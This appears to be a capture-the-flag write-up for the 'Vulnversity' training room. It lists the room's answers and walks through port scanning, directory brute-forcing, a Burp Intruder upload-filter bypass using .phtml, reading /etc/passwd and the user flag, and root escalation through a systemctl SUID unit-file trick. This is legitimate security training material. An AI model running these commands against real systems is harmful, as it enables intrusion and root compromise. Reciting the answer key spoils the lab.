 # Vulnversity
Learn about active recon, web app attacks and privilege escalation.

#### [TASK 2] Reconnaissance

Nmap Cheatsheet -> https://www.stationx.net/nmap-cheat-sheet/

Run the command `nmap -A <IP>` > [CHECK THE SCAN RESULT][1]

Scan the box, how many ports are open? **6**

What version of the squid proxy is running on the machine? **3.5.12**

How many ports will nmap scan if the flag *-p-400* was used? **400** <br>
> *-400* means start scanning from port 1 and scan till 400. To know more check [Nmap - Port Specification][2].

Using the nmap flag *-n* what will it not resolve? **DNS**

What is the most likely operating system this machine is running? **Ubuntu**


What port is the web server running on? **3333**

Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

> - It is always good idea to check for vulnerability. To do that run `nmap --script=vuln <IP>`
- Try **SSH** as port 22 is open and running OpenSSH. To do that run `ssh <IP>`
- Check the **website** as there is HTTP port. To do that, go to `<IP>:3333`.   



#### [TASK 3] Locating directories using GoBuster

Let's start with a GoBuster Directory scan. Command and the location of wordlist is given. There are a lot of wordlist to choose from but for the sake of this room *small.txt* from *dirb* directory will enough.

![GoBuster Results](images/gobuster.jpg)

What is the directory that has an upload form page? **/internal/**

> Try to access all the directory and BAAM! */internal* has a upload page. If none of this would have worked, try other wordlist like *common.txt*. Also, **recursive** option can be used. DirBuster GUI version can be used too.

#### [TASK 4] Compromise the webserver

Try upload a few file types to the server, what common extension seems to be blocked? **.php**

1. Intercept the request as show and send it to **Intruder**.
2. **Clear** variables and select ***.\<file_formart>*** and click on **Add**.
3. Under **Payloads** option, Load the *phpext.txt*. Make sure to uncheck **Payload Encoding**.
4. Click on **Start Attack**. Check the **Length** variable, one has a different length.

![Intruder Result](images/burpsuite.jpg)

Run this attack, what extension is allowed? **.phtml**

Follow the remote access steps. After uploading the file.

What is the name of the user who manages the webserver? **bill**
> To get the name, check /etc/psswd file. To do that, type `cat /etc/passwd` and you will see the name bill as a user.

What is the user flag?
> As we know *bill* is the user. Direct to /home/bill. Type, `cd /home/bill`. There is a file called **user.txt**. Check the content of the file using `cat user.txt`.

#### [TASK 5] Privilege Escalation

On the system, search for all SUID files. What file stands out? **/bin/systemctl**

> To find SUIDs on a system, run `find / -perm -u=s -type f 2>/dev/null`. To know more, [Click Here][3]

Become root and get the last flag (/root/root.txt)
> Run this commands
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```
The data from the file *root.txt* is copied to a file called *output* in *tmp* directory.
`cat /tmp/output`. To know more, Check this [Reference][4]


[1]: https://gist.github.com/abhi-agrawl/87aa4e87f999c7ff3fc99e7a8d0e665e
[2]: https://www.hackhunt.in/2021/02/nmap-port-specification.html
[3]: https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
[4]: https://gtfobins.github.io/gtfobins/systemctl/

